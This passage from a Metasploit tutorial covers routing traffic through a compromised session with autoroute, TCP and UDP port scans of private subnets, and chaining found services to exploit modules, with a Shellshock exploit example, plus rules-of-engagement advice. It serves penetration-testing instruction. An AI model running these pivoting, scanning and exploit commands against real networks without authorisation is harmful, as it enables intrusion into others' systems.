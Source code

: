 2) Run autoroute to add routes for the target subnet

```
msf6 > run post/multi/manage/autoroute RHOSTS=10.10.10.0/24 SESSION=1
[+] Added route to 10.10.10.0/24 via session 1
```

3) Now run scanners against the routed subnet — traffic will go via the session

```
msf6 > use scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.10.10.0/24
msf6 auxiliary(scanner/portscan/tcp) > run
```

Notes:
- Autoroute sets up Metasploit routes so modules send traffic through the session. It is an internal routing mechanism inside msfconsole.
- Ensure the session has sufficient privileges/networking functionality to forward traffic.

## UDP scanning

UDP scans with Metasploit are slower and may miss responses. Use targeted UDP port lists (DNS 53, NTP 123, SNMP 161, etc.).

```
msf6 > use scanner/portscan/udp
msf6 auxiliary(scanner/portscan/udp) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/portscan/udp) > set PORTS 53,123,161,514
msf6 auxiliary(scanner/portscan/udp) > run
```

## Chaining to vulnerability checks and exploitation

After discovering services:

- Search for exploits: `search name:<service>` (e.g., `search name:tomcat`)
- Load exploit module, `show options`, `set RHOST`, `set RPORT`, `check`, and `exploit`.

Example:

```
msf6 > search name:apache
msf6 > use exploit/multi/http/apache_mod_cgi_bash_env_exec
msf6 exploit(apache_mod_cgi_bash_env_exec) > set RHOST 192.168.1.10
msf6 exploit(apache_mod_cgi_bash_env_exec) > check
msf6 exploit(apache_mod_cgi_bash_env_exec) > exploit
```

## Best practices

- Respect rules-of-engagement. Internal scans and pivoting can impact production systems.
- Use dedicated workspaces per engagement.
- Start with conservative thread counts and scan small port ranges first.
- Prefer Nmap for heavy external scanning; use Metasploit when scanning from an internal pivot or when you want DB integration.
